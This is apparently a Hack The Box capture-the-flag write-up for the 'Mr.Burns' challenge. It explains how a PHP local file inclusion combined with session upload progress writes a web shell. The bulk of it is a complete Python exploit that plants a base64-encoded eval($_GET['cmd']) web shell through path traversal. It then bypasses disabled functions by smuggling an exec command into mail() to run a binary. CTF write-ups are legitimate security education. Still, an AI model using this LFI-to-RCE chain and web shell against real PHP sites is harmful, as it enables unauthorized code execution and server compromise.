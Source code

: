 ## Mr.Burns - Hackthebox
<hr />  
   
     
### Stricts  
- open_basedir("/tmp:/www")  
- disable_functions = exec, system, popen, proc_open, shell_exec, passthru, ini_set, putenv, pfsockopen, fsockopen, socket_create  

### Overview  
- Local File Inclusion  
```php  
class MinerController 
{
    public function show($router, $params) 
    {   
        $miner_id = $params[0];
        include("./miners/${miner_id}");
...
```  
- Session upload progress  
```
session.upload_progress.enabled	      On	      On
```  
- Session save path set `no-value` ==> Default path is `/tmp`  
```
session.save_path	      no value	        no value  
```  
- Web path: `/www`  


### Exploit  
#### Step by step to exploit
- Upload `PHP_SESSION_UPLOAD_PROGRESS` and `malicous php code`
- Try to include session file stored at `/tmp` and write web-shell  
- Create a bash file store command get flag  
- Use `mail()` function to execute base file was created  

#### My code exploit  
  
```python3  
import requests
import base64
from urllib.parse import quote

r = requests.Session()
url = 'http://46.101.23.188:31323'


def write_shell(session_name, web_path):
	payload = f"<?php file_put_contents('{web_path + '/shell.php'}',base64_decode('PD9waHAgZXZhbCgkX0dFVFsiY21kIl0pOyA/Pg==')); ?>"
	# PD9waHAgZXZhbCgkX0dFVFsiY21kIl0pOyA/Pg== : eval param $_GET["cmd"]
	cookies = {'PHPSESSID': session_name}
	data= {'PHP_SESSION_UPLOAD_PROGRESS': 'xxxxxxxxxxxxxxxxxxxx'}
	files = {
		f'{payload}': 'a' * 100
	}
	
	print("[+] Post PHP_SESSION_UPLOAD_PROGRESS ")
	r.post(url + '/info', cookies=cookies, files=files, data=data)

	print(f"[+] Include session file stored at /tmp/sess_{session_name}")
	r.get(url + '/miner/' + quote(quote(f'../../../tmp/sess_{session_name}', safe='')))

	print(f"[+] Web shell: {url + '/shell.php?cmd='}")


if __name__ == "__main__":
	SESSION_NAME = 'nhienit'
	WEB_PATH = '/www'
	print("[+] Try to write web shell ")
	write_shell(SESSION_NAME, WEB_PATH)

	print("[+] Write bash file to read flag")
	bash_command = "/readflag > /www/flag.txt"
	payload = f"$file=fopen('/www/getflag', 'w'); fwrite($file, '{bash_command}'); chmod('getflag', 0777);";
	requests.get(url + '/shell.php?cmd=' + quote(payload, safe=''))

	print("[+] Use mail() to trigger getflag binary file")
	payload = "mail('', '', '', '', '-H \"exec /www/getflag\"');"
	requests.get(url + '/shell.php?cmd=' + quote(payload))

	print("[+] Try to get flag")
	flag = r.get(url + '/flag.txt')

	print(flag.text)
```
  















